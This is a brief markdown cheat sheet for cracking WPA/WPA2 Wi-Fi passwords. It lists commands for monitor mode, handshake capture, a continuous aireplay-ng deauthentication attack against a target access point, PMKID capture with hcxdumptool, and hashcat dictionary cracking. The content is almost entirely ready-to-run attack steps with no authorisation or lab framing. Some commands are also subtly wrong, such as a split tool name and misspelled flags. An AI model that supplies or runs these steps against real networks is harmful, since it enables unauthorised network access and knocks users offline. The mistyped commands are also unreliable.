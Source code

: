 # WPA/WPA2 PSK Auth

You need to capture a 4-way WPA/WPA2 auth handshake, likely using a deauth attack. You will need to install `airmon-ng`, `airodump-ng`, and `aireplay-ng`.

First off create a monitoring interface for wlan0:

* `airmon-ng start wlan0`

Second capture packets to file from channel 11

* `airodump-ng mon0 --write capture.pcap -c 11`

Third deauth attack against BSSID bb:bb:bb:bb:bb:bb

* `aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0`

Fourth: wait some time

Fifth: convert hashes, you should use `baking.sh`


# WPA2 PKMID 

Doesn't require you to capture the 4-way handshake, you will want to download the following:

* https://github.com/ZerBea/hcxtools.git
* https://github.com/ZerBea/hcxdumptool


First start listening for broadcasting access points ot locate the BSSID you want to target

* `airodump-ng <interface>`

Second place target BSSID into a fil, and start hcxdumptool to capture the PKMID

* `hcxdump tool -i <interface> --filterlist=bssid_file.txt --filermode=2 --enable_status=2 -o pmkid.pcap`

Third with the BSSID PKMID captured, extract into hashcat format for cracking

* `hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap`

Fourth start flicking your wrists

* `hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt`